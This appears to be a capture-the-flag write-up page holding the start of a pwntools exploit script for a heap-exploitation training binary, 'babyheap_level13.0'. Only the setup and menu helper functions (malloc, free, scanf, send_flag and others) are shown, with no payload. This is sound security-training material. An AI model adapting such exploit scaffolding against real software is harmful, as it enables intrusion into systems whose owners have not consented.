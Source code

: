 ## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    flat,
    process,
    raw_input,
    remote,
)


FILE = "/challenge/babyheap_level13.0"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def malloc(idx, size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendlineafter(b"Size: ", str(size).encode())


def free(idx):
    target.sendlineafter(b": ", b"free")
    target.sendlineafter(b"Index: ", str(idx).encode())


def puts(idx):
    target.sendlineafter(b": ", b"puts")
    target.sendlineafter(b"Index: ", str(idx).encode())


def scanf(idx, data):
    target.sendlineafter(b": ", b"scanf")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendline(data)


def send_flag(secret):
    target.sendlineafter(b": ", b"send_flag")
    target.sendlineafter(b"Secret: ", str(secret).encode())


def stack_free():
    target.sendlineafter(b": ", b"stack_free")


def stack_scanf(data):
    target.sendlineafter(b": ", b"stack_scanf")
    target.sendline(data)


def quit():
    target.sendlineafter(b": ", b"quit")


```